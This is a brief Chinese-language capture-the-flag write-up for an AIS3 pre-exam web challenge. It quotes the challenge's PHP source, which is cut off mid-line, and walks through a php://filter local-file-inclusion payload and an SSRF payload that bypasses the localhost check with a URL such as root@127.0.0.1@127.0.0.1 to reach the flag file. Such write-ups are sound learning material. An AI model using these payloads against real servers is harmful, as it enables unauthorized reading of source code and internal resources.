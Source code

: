 ### d1v1n6
- 題目有個很明顯的LFI
- payload: `http://pre-exam-web.ais3.org:10103/index.php?path=php://filter/convert.base64-encode/resource=index`
- index.php
```
<?php
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
        // show path of the flag
        die($_ENV['FLAG_HINT']);
    }
    if ($path = @$_GET['path']) {
        $path = trim($path);
        if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
            // resolve ip address
            $ip = gethostbyname($g[1]);
            // no local request
            if ($ip == '127.0.0.1' || $ip == '0.0.0.0')
                die('Do not request to localhost!');
        }
        // no flag in path
        $path = preg_replace('/flag/i', '', $path);
        if ($content = @file_get_contents($path, FALSE, NULL, 0, 1000)) {
            // no flag in content
            if (preg_match('/flag/i', $content)) 
                die('Dex
```
- 注意到如果`REMOTE_ADDR`是`127.0.0.1`會有FLAG相關的東西
- 於是構造SSRF payload: `http://pre-exam-web.ais3.org:10103/index.php?path=php://filter/convert.base64-encode/resource=http://root@127.0.0.1@127.0.0.1/index.php`
- 得到flag藏在`FLAG_14d65189669f05d206764c9de441474d.txt`檔案裡面 於是再一次LFI
- payload: `http://pre-exam-web.ais3.org:10103/FLAG_14d65189669f05d206764c9de441474d.txt`
- 得到flag